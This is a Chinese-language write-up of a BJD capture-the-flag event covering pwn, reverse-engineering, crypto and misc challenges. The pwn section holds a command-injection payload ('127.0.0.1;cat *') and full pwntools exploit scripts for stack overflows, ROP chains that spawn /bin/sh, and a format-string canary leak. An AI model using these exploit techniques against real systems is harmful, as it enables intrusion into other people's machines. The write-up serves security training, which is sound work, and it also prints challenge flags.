


# pwn 

## babyrouter

 - `system`执行`ping`可注入命令

```c

      case 1:
        puts("Please input the ip address:");
        read(0, &buf, 0x10uLL);
        v3 = &buf;
        strcat(dest, &buf);
        system(dest);
        v4 = "done!";
        puts("done!");
        break;

```
 - 直接`cat *`就有flag了鸭
 - > 127.0.0.1;cat * 

```
127.0.0.1;cat *
sh: 1: ping: not found
cat: bin: Is a directory
cat: dev: Is a directory
BJD{Function_System_i5_d4nger0us}cat: lib: Is a directory
cat: lib32: Is a directory
cat: lib64: Is a directory
 ``h� ((`(`�TT@T@DDP�tdX8@8@@@�
                        X
                         @X
                           @<<Q�tdR�td``��/lib64/ld-linux-x86-64.so.2GNU GNUA�rR�iqH���
      �

```

## babystack
 - 栈溢出

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './ret2text'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget
prdi = 0x0000000000400833 # pop rdi ; ret

# elf, libc
backdoor = 0x04006Ea
# rop1
offset = 24
payload = 'A'*offset
payload += p64(backdoor)

ru('[+]Please input the length of your name:\n')
sl('200')
ru('[+]What\'s u name?\n')
# debug('b *0x4007cb')

sl(payload)
# ru('')
# sl(payload)

# debug()
# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()

```
## babystack2.0
 - `scanf`一个整数，不能大于10，作为`read`读的字节数
 - `read`的参数为无符号数，所以scanf负数,即可绕过判断，并造成栈溢出
```c
  __isoc99_scanf((__int64)"%d", (__int64)&nbytes);
  if ( (signed int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  puts("[+]What's u name?");
  read(0, &buf, (unsigned int)nbytes);
  return 0;
```

 - exp:

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './stack2'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget
prdi = 0x0000000000400893 # pop rdi ; ret

# elf, libc
backdoor = 0x40072a

# rop1
offset = 24
payload = 'A'*offset
payload += p64(backdoor)

ru('[+]Please input the length of your name:\n')
sl('-1')
ru('[+]What\'s u name?\n')
sl(payload)

# debug()
# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()
```

## babyrop
 - 64bit rop

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './babyrop'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = 'libc.so'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget
prdi = 0x0000000000400733 # pop rdi ; ret

# elf, libc
puts_got = elf.got['puts']
puts_plt = elf.symbols['puts']
main = elf.symbols['main']

# rop1
offset = 40
payload = 'A'*offset
payload += p64(prdi) + p64(puts_got) + p64(puts_plt) + p64(main)

ru('Pull up your sword and tell me u story!\n')
sl(payload)
puts = u64(rc(6).ljust(8,'\0'))
info_addr('puts',puts)
libc_base = puts - libc.symbols['puts']
system = libc.symbols['system'] + libc_base
binsh = libc.search('/bin/sh').next() + libc_base
info_addr('system', system)
info_addr('binsh', binsh)


# rop2
ppr = 0x0000000000400730 # pop r14 ; pop r15 ; ret
payload2 = 'B'*offset
payload2 += p64(ppr) + p64(0)*2
payload2 += p64(prdi) + p64(binsh) + p64(system) + p64(main)
#payload2 = payload2.ljust(200,'\0')
ru('Pull up your sword and tell me u story!\n')
sl(payload2)

# debug()
# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()
```

## babyrop2
 - fsb leak canary + rop

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './rop2'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = './libc.so'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget
prdi = 0x0000000000400993 # pop rdi ; ret

# elf, libc
puts_got = elf.got['puts']
puts_plt = elf.symbols['puts']
main = elf.symbols['main']

# fmt
fmt="%7$p"
# debug()
ru('I\'ll give u some gift to help u!\n')
sl(fmt)
canary = int(rc(0x12),16)
info_addr('canary',canary)# rop1

# rop1
payload =  p64(0xdeadbeef)*3
payload += p64(canary)
payload += p64(0xdeadbeef)
payload += p64(prdi) + p64(puts_got) + p64(puts_plt) + p64(main)

ru('Pull up your sword and tell me u story!\n')
sl(payload)

puts = u64(rc(6).ljust(8,'\0'))
info_addr('puts',puts)
libc_base = puts - libc.symbols['puts']
system = libc.symbols['system'] + libc_base
binsh = libc.search('/bin/sh').next() + libc_base
info_addr('system', system)
info_addr('binsh', binsh)

# rop2
fmt="%7$p"
# debug()
ru('I\'ll give u some gift to help u!\n')
sl(fmt)
canary = int(rc(0x12),16)
info_addr('canary',canary)# rop1

ppr = 0x0000000000400991 # pop rsi ; pop r15 ; ret
payload2 =  p64(0xdeadbeef)*3
payload2 += p64(canary)
payload2 += p64(0xdeadbeef)
payload2 += p64(ppr) + p64(0)*2
payload2 += p64(prdi) + p64(binsh) + p64(system) + p64(main)
#payload2 = payload2.ljust(200,'\0')
ru('Pull up your sword and tell me u story!\n')
sl(payload2)

# debug()
# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()
```

# re
## easyre
```c
BOOL __stdcall DialogFunc(HWND hWnd, UINT a2, WPARAM a3, LPARAM a4)
{
  CHAR String; // [esp+0h] [ebp-64h]

  if ( a2 != 272 )
  {
    if ( a2 != 273 )
      return 0;
    if ( (_WORD)a3 != 1 && (_WORD)a3 != 2 )
    {
      sprintf(&String, aD, ++dword_4099F0);
      if ( dword_4099F0 == 19999 )
      {
        sprintf(&String, aBjdDD2069a4579, 0x4E1F, 0);
        SetWindowTextA(hWnd, &String);
        return 0;
      }
      SetWindowTextA(hWnd, &String);
      return 0;
    }
    EndDialog(hWnd, (unsigned __int16)a3);
  }
  return 1;
}
```

 - 各种判断后输出正确flag
 - 照着写一个`c`就行：

```c
int main(){
    printf("BJD{%d%d2069a45792d233ac}",19999,0);
}

```

# Crypto
## base??
 - 自定义base64

```python
dict={0: 'J', 1: 'K', 2: 'L', 3: 'M', 4: 'N', 5: 'O', 6: 'x', 7: 'y', 8: 'U', 9: 'V', 10: 'z', 11: 'A', 12: 'B', 13: 'C', 14: 'D', 15: 'E', 16: 'F', 17: 'G', 18: 'H', 19: '7', 20: '8', 21: '9', 22: 'P', 23: 'Q', 24: 'I', 25: 'a', 26: 'b', 27: 'c', 28: 'd', 29: 'e', 30: 'f', 31: 'g', 32: 'h', 33: 'i', 34: 'j', 35: 'k', 36: 'l', 37: 'm', 38: 'W', 39: 'X', 40: 'Y', 41: 'Z', 42: '0', 43: '1', 44: '2', 45: '3', 46: '4', 47: '5', 48: '6', 49: 'R', 50: 'S', 51: 'T', 52: 'n', 53: 'o', 54: 'p', 55: 'q', 56: 'r', 57: 's', 58: 't', 59: 'u', 60: 'v', 61: 'w', 62: '+', 63: '/', 64: '='}

chipertext= 'FlZNfnF6Qol6e9w17WwQQoGYBQCgIkGTa9w3IQKw'

l=[]
for i in chipertext:
    for j in dict:
        if dict[j]==i:
            l.append(j)
            break
print(l)

s=''
for i in l:
    print(bin(i))
    s+=bin(i)[2:].rjust(6,'0')
print(s)

h=hex(int(s,2))[2:]
print(h)
a=bytes.fromhex(h)
print(a)
```

# Misc

## 签个到？
 

## 你猜我是个啥

```bash
% cat m2.png 
�PNG
�
1f5?�!�IEND�B`��bD��#j�5Ĉ�bD��O�O��#j�5Ĉ�bD�bD�5Ĉ�bDĈ�bD
%00xaflag{i_am_fl@g}
```


## 呐尼

 - 修复文件头，4张图片，连起来解base64

## 鸡你太美

 - 修复文件头

## 一叶障目
 - 根据CRC还原图片高度

```python
import binascii
import struct
crc32key = 0xc20f1fc6
for i in range(0, 65535):
    height = struct.pack('>i', i)
    data = '\x49\x48\x44\x52\x00\x00\x01\x41' + height + '\x08\x06\x00\x00\x00'
    crc32result = binascii.crc32(data) & 0xffffffff
    if crc32result == crc32key:
        print ''.join(map(lambda c: "%02X" % ord(c), height))

# 0000034C
```

## just a rar

 - 爆破密码
 - 解压出`flag.jpg` 搜索字符串`flag`即可

```bash
% rabin2 -zz flag.jpg| grep flag
2    0x0000107c 0x0000107c 14   30           utf16le flag{Wadf_123}

```

## 认真你就输了
 - 打开表格，说是flag藏在图表下
 - 于是打开`xls`文件在`charts`目录下找到了`flag`



